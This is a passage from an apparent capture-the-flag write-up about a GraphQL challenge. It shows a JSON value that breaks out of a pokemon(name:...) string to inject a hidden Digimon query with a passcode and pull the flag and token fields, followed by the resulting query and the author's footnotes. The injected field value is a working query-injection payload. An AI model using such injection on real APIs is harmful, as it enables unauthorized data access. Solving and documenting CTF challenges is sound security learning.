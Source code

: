 ```json
{
    "pokemons":["\") {id} digimOwOUwURawrn38408375018458385023841203489738570123(passcode:\"dish-percent-drop-brief\", name:\"Flagmon\") { id name level type attribute description flag tokenf0e4c2f76c58916ec258f246851bea091d14d4247a2fc3e18694461b1816e13b tokend743cb4b22397cf64e0117fd83d29ca1e059c698b8155a3771417e24458e2bb5 tokenb20e3fc8e392aeae90db75a40648ad4aa87d13830ef9eb80343b960130ec2d3e } _0:pokemon(name:\""],
    "compares":["id"]
}
```
```graphql
{
    _1:pokemon(name:"") {
        id
    } 
    digimOwOUwURawrn38408375018458385023841203489738570123(passcode:"dish-percent-drop-brief", name:"Flagmon") {
        id
        name
        level
        type
        attribute
        description
        flag
        tokenf0e4c2f76c58916ec258f246851bea091d14d4247a2fc3e18694461b1816e13b
        tokend743cb4b22397cf64e0117fd83d29ca1e059c698b8155a3771417e24458e2bb5
        tokenb20e3fc8e392aeae90db75a40648ad4aa87d13830ef9eb80343b960130ec2d3e
    }
    _0:pokemon(name:"") {
        id
    }
}
```

![](49_step_8.png)


[^1]: In fact these are test queries I intended to left behind. Maybe act as an easter egg.
[^2]: The reason I didn't put the flag in the field `flag` is because I don't want people to be guessy and guess the fields of `Digimon` without introspection. However, if you can get the query method names and other stuff, getting all fields from `Digimon` isn't a issue here.